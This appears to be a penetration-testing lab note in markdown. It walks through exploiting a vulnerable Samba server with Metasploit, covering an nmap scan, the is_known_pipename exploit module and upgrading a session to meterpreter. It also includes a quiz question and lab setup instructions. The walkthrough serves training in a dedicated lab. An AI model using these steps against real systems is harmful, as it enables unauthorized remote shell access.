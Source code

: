 - Server Message Block 
- Samba is the Linux version of SMB 
- Port 445 
- Allows Windows Systems to access Linux Shares
- Samba V3.5.0 is vulnerable


Setup Msfconsole
```
service portgresql start
msfconsole
workspace -a samba
setg RHOSTS <target_ip>
```

Scan and Enumerate target_ip
```
db_nmap -sS -sV -O <target_ip>
```

Setup exploit module
```
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
options
```

Upgrade shell to meterpreter
```
use mutli/manage/shell_to_meterpreter
set LHOST <local_ip>
set LPORT <local_port>
set SESSION <session_id>
exploit
```
## Quiz

Samba is the Linux implementation of SMB?

	TRUE

## Lab

The target server as described below is running a vulnerable file sharing server. Your task is to fingerprint the application using command line tools available on the Kali terminal and then exploit the application using the appropriate Metasploit module. Get a shell on the target!

Instructions: 

- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a root terminal of a Kali instance
- Your Kali has an interface with IP address 192.X.Y.Z. Run "ip addr" to know the values of X and Y.
- The target server should be located at the IP address 192.X.Y.3.
- Do not attack the gateway located at IP address 192.X.Y.1
- postgresql is not running by default so Metasploit may give you an error about this when starting



```
Local IP: 192.112.55.2
Target IP: 192.112.55.3
```


```
db_nmap -sS -sV -O 192.112.55.3

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```